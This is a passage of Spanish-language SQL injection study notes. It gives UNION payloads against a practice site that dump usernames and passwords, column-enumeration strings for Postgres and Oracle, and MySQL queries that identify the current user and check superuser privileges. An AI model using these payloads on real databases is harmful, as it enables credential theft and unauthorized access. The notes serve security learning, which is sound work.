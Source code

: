 A veces la concatenacion no funciona debido a la sintaxis del DBMS, entonces supongamos que la base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Puedes poner directamente:

```http
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,username,password from users
```

#### ENUMERACION DE COLUMNAS - Postgres

```bash
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```

#### ENUMERACION DE COLUMNAS - Oracle

```bash
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```

## SQLi OUT-BAND

### READING FILES

La lectura de datos es mucho más común que la escritura de datos, que está estrictamente reservada para usuarios privilegiados en los DBMS modernos, ya que puede conducir a la explotación del sistema. En **MySQL** debemos tener el privilegio **FILE** para cargar el contenido de un archivo en una tabla y luego volcar los datos de esa tabla y leer los archivos.

#### DETECCION DEL USUARIO ACTUAL

Primero, tenemos que determinar qué usuario somos dentro de la base de datos. Si bien no necesitamos necesariamente privilegios de administrador de base de datos (DBA) para leer datos, esto es cada vez más necesario en los DBMS modernos, ya que solo los DBA tienen dichos privilegios.

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

o a traves de un ataque de union:

```sql
' UNION SELECT 1, user(), 3, 4-- -
' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

![[Pasted image 20221227160148.png]]

#### DETECCION DE PRIVILEGIOS DEL USUARIO ACTUAL

Ahora que conocemos a nuestro usuario, podemos comenzar a buscar qué privilegios tenemos con ese usuario. En primer lugar, podemos probar si tenemos privilegios de superadministrador con la siguiente consulta:

```sql
SELECT super_priv FROM mysql.user

#union
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
